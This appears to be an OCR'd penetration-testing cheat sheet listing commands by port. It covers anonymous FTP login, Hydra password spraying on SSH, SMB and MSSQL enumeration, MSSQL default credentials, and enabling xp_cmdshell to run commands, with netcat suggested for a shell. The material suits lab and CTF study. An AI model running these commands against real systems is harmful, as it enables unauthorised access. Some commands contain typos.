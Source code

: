 ### 21 -  FTP


Sign in as:
```
anonymous:[any password, including blank]
```

### 22 - SSH

Hydra to password spray:
```
hydra -l <username> -p <password <ip/CIDR> ssh -vV
```

### 25 - STMP
```
telnet $ip 25
```

### 53 - DNS
```
sublist3r -d <domain> -v -t 20 
```
### 139/445 - SMB
Please refer to CrackMapExec section as well!

#### Nmap Script Scanning
```
nmap -p 445 -script=smb-vuln-* $ip -oA $ip_smb_script_scan
```

#### List accessible shares
```
smbclient -L //$ip
```

```
smbclient //MOUNT/share -I $ip N
```

#### 1433 - MSSQL
####  Nmap Script Scanning
```
nmap -p $port --script ms-sql* $ip
```

#### Logging in with user creds
Default creds for SQL are `sa:[blank]` or `sa:Password123`. Google for more.
```
sqsh -S <target_ip>:<port>
```

#### Command Execution while logged in
You can leverage command execution (showcased below) to get a shell. Transfer a netcat binary, and use xp_cmdshell to run that to get a shell (refer to 0xRick's `Querier` HackThebox Blog). 
```
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configre 'xp_cmdshell', 1
go
reconfigure
go
xp_cmdshell 'dir c:\''
go
```